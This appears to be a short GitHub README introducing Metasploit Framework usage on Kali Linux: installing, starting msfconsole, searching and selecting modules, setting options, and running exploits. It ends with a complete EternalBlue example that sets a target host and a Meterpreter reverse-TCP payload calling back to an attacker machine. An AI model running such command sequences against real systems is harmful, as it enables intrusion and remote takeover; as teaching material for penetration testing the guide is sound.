 # Metasploitable-Framework

#### [Read](../manual/msfconsole.txt) Metasploitable-Framework manual

## Installation

### On Kali Linux
Metasploit comes pre-installed on Kali Linux. To update it, run:
```bash
sudo apt update
sudo apt install metasploit-framework
```
## Getting Started
1. Start the Metasploit console:
```
msfconsole
```
2. Check the status of the database:

```bash
db_status
```
- If the database is not connected, start it with(Not necessary):

```bash
msfdb init
```

## Basic Command
- Search for modules: Use the __search__ command to find exploits, payloads, or auxiliary modules.
```
search <keyword>
```
example:
```
search windows
```
- Use a module: Select a module using the __use__ command.
```
use <module_path>
```
Add from the search results.
example:
```
use exploit/windows/local/ipass_launch_app
```
- Show options: Display the required options for the selected module.

```
show options
```
- Set options: Configure the options for the module.
```
set <option_name> <value>
```
- LHOST = Attacker Machine
- ROSTS = Victim   Machine
  ```
  set RHOSTS 192.168.1.10
  ```
  - set the requirements
- Now ready to exploit 
```
exploit
```
---
# Using Exploits
1. Search for an exploit:

```bash
search <exploit_name>
```
2. Select the exploit:

```bash
use <exploit_path>
```
3. Set the required options (e.g., RHOSTS, RPORT, PAYLOAD).

4. Run the exploit:

```bash
exploit
```
Example:

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.10
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.5
exploit
```
---
